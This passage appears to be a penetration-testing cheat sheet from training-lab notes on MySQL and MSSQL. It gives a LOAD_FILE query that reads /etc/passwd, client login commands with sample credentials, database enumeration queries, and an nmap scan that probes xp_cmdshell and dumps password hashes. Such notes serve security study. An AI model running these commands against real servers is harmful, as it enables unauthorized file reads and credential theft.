 ## Read Local Files
```sql
mysql> select LOAD_FILE("/etc/passwd");
```

## Secure File Privileges
```
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```






# MSSQL
## Interaction
```bash
$ mysql -u julio -pPassword123 -h <IP>
$ python3 mssqlclient.py Administrator@10.129.201.248 -windows-auth
$ mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>
$ mssqlclient.py <domain>/<user>:<password>@<ip>

$ sqsh -S <IP> -U julio -P 'MyPassword!' -h

> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

| Command                                                   | Description                                           |
|-----------------------------------------------------------|-------------------------------------------------------|
| SELECT name FROM master.dbo.sysdatabases;                 | Show all databases.                                   |
| USE htbusers                                              | Select one of the existing databases.                 |
| SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;   | Show all available tables in the selected database.   |
| SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES |
| SELECT * FROM Employees.dbo.employee_information;         | Show everything in the desired table.                 |

## Footprinting 
## NMAP MSSQL Script Scan
```bash
$ sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```
